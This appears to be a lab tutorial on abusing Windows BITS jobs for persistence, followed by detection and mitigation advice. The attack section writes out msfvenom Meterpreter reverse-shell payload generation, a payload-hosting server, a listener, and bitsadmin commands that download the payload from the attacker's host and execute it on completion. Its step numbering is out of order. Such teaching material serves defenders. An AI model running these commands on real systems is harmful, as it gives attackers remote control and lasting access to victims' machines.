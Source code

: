 # Exploiting BITS Jobs for Persistence

## 1. Introduction

Background Intelligent Transfer Service (BITS) is a Windows service designed for low-bandwidth, asynchronous file transfers. It is commonly used by Windows Update, messaging applications, and other background services that require efficient file transfer without disrupting network performance. However, adversaries can abuse BITS jobs for malicious purposes, including persistent code execution, downloading and executing payloads, and exfiltrating data.

---

## 2. Understanding BITS Jobs and Why They Are Exploitable

BITS operates by creating and managing jobs that handle file transfers. These jobs can be configured to:
- Download and execute files
- Run commands upon completion or failure
- Store job configurations in a database, avoiding registry modifications
- Persist across reboots with a default maximum lifetime of 90 days (extendable)

The BITS interface can be accessed via:
- PowerShell (`Start-BitsTransfer`, `Get-BitsTransfer`)
- BITSAdmin tool (`bitsadmin /transfer`)

Since BITS jobs are often allowed by host firewalls and do not create obvious new files, they provide a stealthy mechanism for attackers to execute malicious code and maintain persistence on a target system.

---

## 3. Attack Scenario: Persistence via BITS Jobs

### 3.1. Lab Setup

This attack is demonstrated in a controlled lab environment using VMware Workstation. The setup consists of:
- **Attacker:** Kali Linux : 192.168.100.10 (running Metasploit Framework)
- **Victim:** Windows 10: 192.168.1.11 (BITS service enabled)
- **Network Configuration:** NAT

### 3.2. Attack Execution

#### Step 1: Using Metasploit to create payload
On Kali Linux, open a terminal and generate a malicious executable:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.10 LPORT=4444 -f exe > /tmp/payload.exe
```
#### Step 3: Send Payload through Python HTTP Server
```bash
cd /tmp
python3 -m http.server 8080
```
Setting Up a Listener on Kali Linux

To capture the reverse shell, the attacker sets up a Metasploit listener:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.10
set LPORT 4444
exploit
```
When the victim executes the payload, a Meterpreter session is established, giving the attacker control over the compromised system.
#### Step 2: Creating a Malicious BITS Job

On the compromised Windows machine, the attacker executes PowerShell commands to create a persistent BITS job:
```powershell
bitsadmin /create test
bitsadmin /addfile test "http://192.168.100.10:8080/payload.exe" "C:\Users\Public\payload.exe"
bitsadmin /SetNotifyCmdLine test "C:\Windows\System32\cmd.exe" "/c bitsadmin /complete test & start C:\Users\Public\payload.exe"
bitsadmin /resume test
```
This command sequence:
- Downloads a payload from the attacker's server
- Saves it to a writable directory (`C:\Users\Public\`)
- Configures the job to execute the payload once the transfer is complete
- Resumes the job to trigger execution

#### Step 3: Achieving Persistence

Since BITS jobs persist in the system’s job queue, they remain active even after reboots. To confirm persistence, the attacker can run:
```powershell
Get-BitsTransfer | Format-Table -AutoSize
```
If the system is restarted, the job will still exist, allowing the payload to be re-executed.

---


## 4. Detecting and Mitigating BITS Job Abuse

### 4.1. Detection

Administrators can monitor for suspicious BITS jobs by running:
```powershell
Get-BitsTransfer -AllUsers | Select-Object -Property DisplayName, JobState, Owner, TransferType, NotifyCmdLine
```
Additionally, security logs and endpoint detection tools can help identify unexpected BITS activity.

### 4.2. Mitigation

To remove suspicious BITS jobs, execute:
```powershell
Get-BitsTransfer | Remove-BitsTransfer
```
To further secure the system:
- Restrict BITS job creation to trusted applications using Group Policy
- Monitor and log BITS activity for anomalous behavior
- Use application whitelisting to prevent unauthorized execution

---

## 5. Conclusion

BITS Job Persistence is a stealthy technique that attackers can use to maintain access on a Windows system. By leveraging the native BITS service, adversaries can execute payloads, evade detection, and maintain persistence without modifying the registry or creating new scheduled tasks. Understanding this technique is crucial for defenders to detect and mitigate such attacks effectively.
